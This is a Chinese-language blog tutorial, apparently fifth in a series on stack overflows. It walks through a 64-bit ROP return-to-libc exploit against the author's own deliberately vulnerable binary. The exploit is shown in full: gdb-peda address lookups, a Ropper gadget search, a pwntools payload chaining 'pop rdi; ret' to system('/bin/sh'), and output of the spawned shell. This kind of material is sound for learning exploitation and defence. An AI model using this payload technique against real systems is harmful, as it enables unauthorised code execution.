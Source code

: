 ```yaml
---
id: 780
layout: post
title: '二进制安全之栈溢出（五）'
date: 2017-10-24 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


NX 不可执行是一项重要的漏洞利用缓解措施，为了绕过 NX 我们需要利用已有的可执行区域的代码片段来辅助完整漏洞利用。

这次还是需要禁用 ASLR，编译参数为 `gcc -g -O0 -fno-stack-protector -o vuln main.c`

在 32 位系统中，函数调用参数都是通过栈来传递的，而在 64 位系统中，函数参数是优先使用寄存器来传递的，当参数少于 7 个时，参数从左到右放入寄存器 rdi, rsi, rdx, rcx, r8, r9，如果超过 7 个，剩下的参数还是使用栈来传递。

在 32 位系统中，因为栈是相对容易控制的，我们可以控制栈为函数参数的形式，然后覆盖返回地址为已有的函数地址，比如 libc 中的 system 函数，这样就可以实现任意命令执行了。但是在 64 位系统中，控制了栈是没有用的，必须要控制寄存器才可以，除非是函数不需要参数。所以我们需要找到一些已有的指令片段，比如 `pop rdi`，会把栈中的参数转移到寄存器中，这样逐步的控制所需的所有寄存器，我们称这种指令片段为 gadget。

## 需要什么

以执行 `system("/bin/sh")` 为例

 - `system` 函数的地址，因为禁用了 ASLR，这个地址可以放心的硬编码。
 - 要执行的函数参数，这里是 `/bin/sh`，需要在内存中放置或者找到一个已有的。
 - 一个可以把 `/bin/sh` 放入 rdi 寄存器的 gadget。

## `system("/bin/sh")`

`system` 函数的地址可以简单获得

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x400550 <system@plt>
```

而寻找 `/bin/sh` 可以使用 `find` 命令

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
```

发现 libc 中有一个，而 `student` 内存我们可以控制，也可以自己放置一个，这次先使用 libc 中的。

## gadget 的选择

我们需要一个能把 `0x7ffff7b99d17` 放入寄存器的 gadget

[Ropper](https://github.com/sashs/Ropper) 是一个寻找 gadget 的工具，安装后可以使用下面的命令来寻找 

```
python Ropper.py --file VULN_PATH --search "% rdi"
```

可以看到结果是 

```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di

[INFO] File: ../vuln
0x0000000000400803: pop rdi; ret;
```

发现结果非常理想， `pop rdi; ret;` 可以复制参数到寄存器，其次是 `ret` 可以让程序再回到我们控制的地址上继续后续的执行。

## shellcode

仿照之前的写法，我们很简单就可以写出 shellcode

```python
from pwn import *
shellcode = "1925\n"
shellcode += "A" * (0x7fffffffe348 - 0x7fffffffe2f0)
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# /bin/sh
shellcode += p64(0x7ffff7b99d17)
# system
shellcode += p64(0x400550)

print shellcode
```

## 分析

这个栈布局已经是很清楚了

```
0016| 0x7fffffffe2f0 ('A' <repeats 88 times>, "\003\b@")
0024| 0x7fffffffe2f8 ('A' <repeats 80 times>, "\003\b@")
0032| 0x7fffffffe300 ('A' <repeats 72 times>, "\003\b@")
0040| 0x7fffffffe308 ('A' <repeats 64 times>, "\003\b@")
0048| 0x7fffffffe310 ('A' <repeats 56 times>, "\003\b@")
0056| 0x7fffffffe318 ('A' <repeats 48 times>, "\003\b@")
0064| 0x7fffffffe320 ('A' <repeats 40 times>, "\003\b@")
0072| 0x7fffffffe328 ('A' <repeats 32 times>, "\003\b@")
0080| 0x7fffffffe330 ('A' <repeats 24 times>, "\003\b@")
0088| 0x7fffffffe338 ('A' <repeats 16 times>, "\003\b@")
0096| 0x7fffffffe340 ("AAAAAAAA\003\b@")
0104| 0x7fffffffe348 --> 0x400803 (<__libc_csu_init+99>:	pop    rdi)
0112| 0x7fffffffe350 --> 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
0120| 0x7fffffffe358 --> 0x400550 (<system@plt>:	jmp    QWORD PTR [rip+0x200aca]        # 0x601020)
```

在 GDB 中运行，可以看到 `/bin/dash` 被执行，其实 `/bin/sh` 就仅仅是它的一个符号链接。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
0x7fffffffe2f0What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[New process 4824]
process 4824 is executing new program: /bin/dash
[New process 4825]
process 4825 is executing new program: /bin/dash
[Inferior 3 (process 4825) exited normally]
Warning: not running or target is remote
```

会发现两个 `/bin/dash` 的原因是 `system` 函数的原理是 `/bin/sh -c $cmd`，所以会先启动一个 `/bin/sh`，然后 `execve` 想运行的命令，这里还是 `/bin/sh`。

因为禁用 ASLR 的原因，libc 的加载地址不变，这个 shellcode 也是可以直接运行的

```
➜  new (cat in.txt; cat) |./vuln
0x7fffffffe360What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
id
uid=1000(virusdefender) gid=1000(virusdefender) groups=1000(virusdefender),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```


## 参考

 - [https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/)
 - [https://zhuanlan.zhihu.com/p/23537552](https://zhuanlan.zhihu.com/p/23537552)

